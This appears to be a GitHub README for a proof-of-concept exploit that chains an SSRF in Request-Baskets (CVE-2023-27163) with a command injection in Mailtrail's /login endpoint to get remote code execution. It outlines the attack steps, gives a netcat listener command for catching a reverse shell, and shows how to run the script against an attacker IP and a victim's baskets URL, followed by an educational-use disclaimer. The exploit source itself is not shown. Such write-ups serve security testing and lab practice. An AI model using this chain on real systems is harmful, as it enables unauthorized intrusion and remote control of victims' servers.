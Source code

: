 #  SSRF to RCE Exploit – Mailtrail via Request-Baskets (CVE-2023-27163)

This PoC chains an SSRF vulnerability in **Request-Baskets ≤ 1.2.1** with a command injection in **Mailtrail**'s `/login` endpoint to achieve **remote code execution**.

##  Exploit Logic

1. Create a malicious **basket** (proxy) pointing to `http://127.0.0.1:80`.
2. Forward a crafted POST request to `/login` with a command injection payload.
3. Gain a **reverse shell** from Mailtrail running locally on the vulnerable server.

##  Usage

Start a listener:

```bash
nc -lvnp 8000
````

Run the exploit:

```bash
python3 exploit_ssrf_to_rce_sau.py <ATTACKER_IP> <ATTACKER_PORT> <VICTIME's_BASKETS_URL>
```

Example:

```bash
python3 exploit_ssrf_to_rce_sau.py 10.10.10.10 8000 http://machine-ip:port/
```

## ⚠️ Disclaimer

This code is for educational purposes only. Do not use it on systems you do not own or have explicit permission to test.

